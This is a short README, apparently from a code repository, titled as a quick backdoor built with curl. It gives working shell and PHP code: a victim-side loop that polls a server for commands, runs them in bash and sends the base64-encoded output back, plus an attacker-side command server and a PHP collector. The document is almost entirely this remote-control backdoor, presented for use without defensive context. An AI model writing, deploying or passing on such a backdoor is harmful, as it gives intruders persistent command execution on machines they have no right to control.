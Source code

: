 # Quick'n Dirty Backdoor with cUrl

## Victim session

### connect_back.sh
```sh
while true ; do sleep 1 ; cmd=$(curl -s 'http://127.0.0.1:3000/'|grep .) && ret=$(echo "$cmd"|bash|base64 -w0) && curl -s -X POST -d "d=$ret" "http://127.0.0.1:3000/get.php" ; done
```

## Attacker session

### get.php
```php
<?php file_put_contents("result.txt",$_POST["d"]); ?>
```

### server.sh
```sh
while true ; do printf "$ " ; printf "" > result.txt ; read cmd ; echo "$cmd" > index.html ; while true ; do grep -sq . result.txt && break ; done ; printf "" > index.html ; base64 -d result.txt ; done
```
